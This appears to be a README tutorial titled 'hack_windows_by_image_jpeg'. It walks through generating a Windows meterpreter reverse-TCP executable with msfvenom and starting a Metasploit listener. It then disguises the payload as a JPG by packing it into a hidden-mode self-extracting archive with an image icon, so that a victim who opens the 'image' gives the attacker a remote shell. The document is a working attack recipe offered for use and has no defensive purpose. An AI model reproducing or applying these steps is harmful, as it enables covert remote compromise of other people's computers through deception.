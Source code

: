 # hack_windows_by_image_jpeg

Metasploit has the ability to create an executable payload. This can be extremely useful if you can get a target machine to run the executable. Attackers often use social engineering, phishing, and other attacks to get a victim to run a payload. If attackers can get their a victim to run a payload, there is no reason for an attacker to find and exploit vulnerable software.

## Step 1:
you must create the payloud .For do that use this command in kali:
```
service postgresql start
msfvenom -p windows/meterpreter/reverse_tcp -f exe lhost=(your wan ip) lport=4444 R > test.exe
```
## Step 2:
we need Listening the port:
```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost (lan ip for find that type ifconfig in terminal)
set lport 4444
run
```

## We created the virus now we want to hide payload in image
you have to do this steps in windows
## Step 1:
convert your image to ico in this site ``` http://icoconvert.com/ ``` and save both files
so we have 3 files : jpg , virus , ico

## Step 2:
you must compress jpg file and test.exe(virus) and we need custom setting for this archive:
```
1. select comression method to best
2. select "Create sfx Archive" from Archive options
3. Click on Advanced tab and select on SFX options
4. Go to Statup tab 
5. type name of virus file(test.exe) and your jpg file in "run after extractions"
6. Go to modes tab and click on hide all
7. Go to Text and Icon tab and select your icon(we created in Step 1) in Load sfx icon from file
After select ok to Compress Archive
```
you can send your image to victim and you see open the session in your kali linux.

## Good luck (Mohammad Amin Ghaemi)
